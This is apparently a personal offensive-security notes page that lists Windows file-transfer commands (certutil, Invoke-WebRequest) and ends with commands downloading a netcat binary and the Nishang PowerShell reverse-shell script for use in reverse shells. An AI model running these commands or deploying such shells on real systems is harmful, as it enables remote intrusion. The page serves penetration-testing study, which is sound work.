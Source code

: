 ## Why do we use Tools?

`Tools` are an integral part of Computer Science, and therefore of Cybersecurity. We use tools to automate tasks that would otherwise take `time` and `effort`, which are scarce resources.

In my opinion, a tool is useful if and only if:
1. It precisely defines the context in which it works properly.
2. It is simple to use relative to the functions it offers.
3. It can be easily integrated into automation workflows.
4. It is clear and concise.
5. It is as minimal as possible.
6. It can be easily understood and modified.

Regardless of how many tools you use, always try to understand what is the action that the tool is doing, to see how you yourself would implement such action.

Tools are useful, but the best tool remains the mind.

## Useful Tools (in Windows)

### certutil

utility to transfer files in windows.
```powershell
certutil -urlcache -split -f <URL> <OUTPUT-FILE>
```

```powershell
certutil -urlcache -split -f https://leonardotamiano.xyz/note.txt note.txt
```

### Invoke-WebRequest

powershell utility to transfer files.
```powershell
Invoke-WebRequest -uri <URL> -Outfile <OUTPUT-FILE>
```

```powershell
iwr -uri <URL> -Outfile <OUTPUT-FILE>
```

```powershell
iwr -uri https://leonardotamiano.xyz/note.txt -Outfile note.txt
```

### netcat

utility to manage TCP connections.  Can be used for reverse shells.
```powershell
iwr -uri https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -Outfile netcat64.exe
```

### Invoke-PowerShell

Reverse shell in powershell.
```powershell
iwr -uri https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1  -Outfile Invoke-PowerShellTcp.ps1
```
